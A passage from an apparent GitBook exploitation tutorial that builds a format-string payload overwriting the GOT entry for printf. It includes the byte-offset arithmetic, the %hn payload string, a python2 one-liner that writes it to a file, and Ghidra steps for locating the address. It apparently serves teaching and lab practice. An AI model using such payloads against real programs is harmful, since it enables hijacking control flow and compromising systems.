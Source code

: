 ```
It’ll will be 63455 - 61504 = 1951, because we already wrote 61504 bytes (the two 4 bytes addresses and 61496 bytes from the previous writing).

# Now we can construct the exploit (note our write offset is %4 so we want [%4,%5] as offsets instead of [%7,%8]) :

It’ll be : \x0c\xc0\x04\x08\x0e\xc0\x04\x08%61496x%4$hn%1951x%5$hn. Let me explain :
    \x0c\xc0\x04\x08 or 0x0804c00c (in reverse order) points to the low order bytes.
    \x0e\xc0\x04\x08 or 0x0804c00e (in reverse order) points to the high order bytes.
    %61496x will write 61496 bytes on the standard output.
    %4$hn will write 8 + 61496 = 61504 bytes (or 0xf040) at the first address specified (0x0804c00c).
    %1951x will write 1951 bytes on the standard output.
    %5$hn will write 8 + 61496 + 1951 = 63455 (or 0xf7df) at the second address specified (0x0804c00e).

python2 -c 'print("\x0c\xc0\x04\x08\x0e\xc0\x04\x08%61496x%4$hn%1951x%5$hn")' > payload

* Based on excellent blogpost: https://axcheron.github.io/exploit-101-format-strings/
```
{% endcode %}

**Obtaining GOT.printf address**:

Load the binary in <mark style="color:yellow;">**Ghidra**</mark>, open up the <mark style="color:yellow;">**Program Tree**</mark>, and inside of the <mark style="color:yellow;">**`got.plt`**</mark>, you will see an <mark style="color:yellow;">**EXTERNAL reference to**</mark><mark style="color:yellow;">** **</mark><mark style="color:yellow;">**`printf()`**</mark>, <mark style="color:yellow;">**use that address**</mark>, and you will have your <mark style="color:yellow;">`GOT.printf`</mark> <mark style="color:yellow;">address</mark>.

<figure><img src="../.gitbook/assets/image (7).png" alt=""><figcaption><p>Program Trees</p></figcaption></figure>

<figure><img src="../.gitbook/assets/image (8).png" alt=""><figcaption><p>Listing View // Obtaining <code>GOT.printf</code> address</p></figcaption></figure>
